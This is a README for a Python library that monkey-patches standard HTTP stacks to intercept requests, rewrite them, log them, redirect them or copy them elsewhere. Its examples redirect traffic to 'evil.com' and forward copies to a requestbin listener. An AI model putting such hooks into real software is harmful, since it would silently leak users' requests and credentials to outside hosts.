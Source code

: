 # py-request-interceptor
[![Python3 Version](https://img.shields.io/badge/python-3.6%20%28%3F%29%20%7C%203.7%2B-blue)](https://www.python.org/downloads/)
[![License](https://img.shields.io/badge/license-GPL--3.0-blue)](/LICENSE)
[![Code Style](https://img.shields.io/badge/code%20style-black-000000)](https://github.com/psf/black)  
## Description
:rat: Intercepts your HTTP(S) requests from Python standard libraries. Allows you to catch API calls and HTTP(S) requests from different `requests`/`urllib`/`http`-based libraries (and many others based on the original `http.client`/`socket` stack).

## Warning
:construction: **Note:** This is just a WIP/PoC project w/o rocket science in it - just a bunch of dirty monkey patches. So, enjoy it "as is" if you are interested in it. Not properly tested lol.

## Proof of Concept
```python3
from src.interceptor import Interceptor

# Initialize 'Interceptor' here, nothing special
intercept = Interceptor()

@intercept.sniff(listener="http://YOUR_LISTENER_ENDPOINT")
@intercept.dump()
@intercept.data(data="GET / HTTP/1.1\r\n ...modified request goes here")
def example_sniff_connect() -> CaseInsensitiveDict:
    """
    Patch request data, dump modified request to the logs, and re-send copy of the request
    to another endpoint
    :return: response headers
    """
    return get(url="http://ORIGINAL_HOST").headers

example_sniff_connect()
```

## Handlers
### Redirect to another target
Definition:  
```python3
def target(self, host: str, port: int) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.target(host="http://evil.com", port=80)
def my_func():
    ...
```
### Replace raw requests data
Definition:  
```python3
def data(self, data: Union[str, bytes]) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.data(data="GET / HTTP/1.1\r\n...")
def my_func():
    ...
```
### Log raw requests to the console 
Definition:  
```python3
def dump(self) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.dump()
def my_func():
    ...
```
### Re-send copy of the original raw requests to another endpoint
Definition:  
```python3
def sniff(self, listener: str) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.sniff(listener="http://requestbin.net/r/YOUR_REQUESTBIN_ID")
def my_func():
    ...
```

